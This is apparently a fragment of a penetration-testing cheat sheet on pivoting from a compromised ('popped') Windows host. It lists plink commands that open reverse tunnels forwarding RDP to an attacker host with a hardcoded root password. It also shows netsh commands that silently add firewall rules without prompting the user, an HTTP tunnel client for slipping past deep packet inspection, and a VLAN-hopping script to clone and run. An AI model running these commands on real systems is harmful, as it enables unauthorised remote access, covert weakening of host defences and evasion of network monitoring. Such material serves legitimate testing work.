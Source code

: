
**        Port 22 blocked? Try port 80? or 443?
**

```
        plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P 80

```


**    Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)
**
        Windows machine add required firewall rules without prompting the user



```
        netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes

```




```
        netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000

        netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080

        netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079
```



        Start the http tunnel client


```
        httptunnel_client.exe

```


        Create HTTP reverse shell by connecting to localhost port 3000


```
        plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P 3000

```


    VLAN Hopping


```
        git clone https://github.com/nccgroup/vlan-hopping.git
        chmod 700 frogger.sh
        ./frogger.sh
```
